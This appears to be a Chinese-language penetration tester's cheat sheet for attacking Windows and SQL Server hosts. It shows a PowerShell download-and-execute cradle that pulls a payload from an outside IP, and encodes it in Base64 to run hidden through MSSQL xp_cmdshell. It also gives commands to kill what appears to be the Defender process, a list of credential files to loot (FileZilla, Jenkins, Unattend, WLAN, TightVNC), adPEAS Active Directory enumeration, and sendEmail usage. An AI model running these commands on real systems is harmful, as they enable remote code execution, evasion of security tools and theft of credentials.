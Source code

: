 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```

# 杀进程
```
tasklist /FI "IMAGENAME eq NisSrv.exe"


taskkill /pid 5672 -f

```





# Juicy files

## All user folders
## Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```

## Web.config
```
C:\inetpub\www\*\web.config
```

## Unattend files
```
C:\Windows\Panther\Unattend.xml
```


## RDP config files
```
C:\ProgramData\Configs\
```


## Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```


## PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```

## FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```

## Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```


## WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```

## TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```



# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```

# 发邮件
```
sendEmail 命令主程序
-f ttlsafrom@163.com  发件人邮箱
-s smtp.163.com       发件人邮箱的smtp服务器
-u "我是邮件主题"     邮件的标题
-o message-content-type=html   邮件内容的格式,html表示它是html格式
-o message-charset=utf8        邮件内容编码
-xu ttlsafrom@163.com          发件人邮箱的用户名
-xp 123456               发件人邮箱密码
-m "我是邮件内容"        邮件的具体内容
```

例子：
```
sendEmail -f <发件人邮箱> -t <收件人邮箱> -s <发件人邮箱的smtp服务器（IP 或者 域名> -u <邮件主题> -m <邮件内容>
```


命令解释
```
sendEmail             

sendEmail-1.56 by Brandon Zehm <caspian@dotconf.net>

Synopsis:  sendEmail -f ADDRESS [options]

  Required:
    -f ADDRESS                from (sender) email address
    * At least one recipient required via -t, -cc, or -bcc
    * Message body required via -m, STDIN, or -o message-file=FILE

  Common:
    -t ADDRESS [ADDR ...]     to email address(es)
    -u SUBJECT                message subject
    -m MESSAGE                message body
    -s SERVER[:PORT]          smtp mail relay, default is localhost:25
    -S [SENDMAIL_PATH]        use local sendmail utility (default: /usr/bin/sendmail) instead of network MTA

  Optional:
    -a   FILE [FILE ...]      file attachment(s)
    -cc  ADDRESS [ADDR ...]   cc  email address(es)
    -bcc ADDRESS [ADDR ...]   bcc email address(es)
    -xu  USERNAME             username for SMTP authentication
    -xp  PASSWORD             password for SMTP authentication

  Paranormal:
    -b BINDADDR[:PORT]        local host bind address
    -l LOGFILE                log to the specified file
    -v                        verbosity, use multiple times for greater effect
    -q                        be quiet (i.e. no STDOUT output)
    -o NAME=VALUE             advanced options, for details try: --help misc
        -o message-content-type=<auto|text|html>
        -o message-file=FILE         -o message-format=raw
        -o message-header=HEADER     -o message-charset=CHARSET
        -o reply-to=ADDRESS          -o timeout=SECONDS
        -o username=USERNAME         -o password=PASSWORD
        -o tls=<auto|yes|no>         -o fqdn=FQDN


  Help:
    --help                    the helpful overview you're reading now
    --help addressing         explain addressing and related options
    --help message            explain message body input and related options
    --help networking         explain -s, -b, etc
    --help output             explain logging and other output options
    --help misc               explain -o options, TLS, SMTP auth, and more


```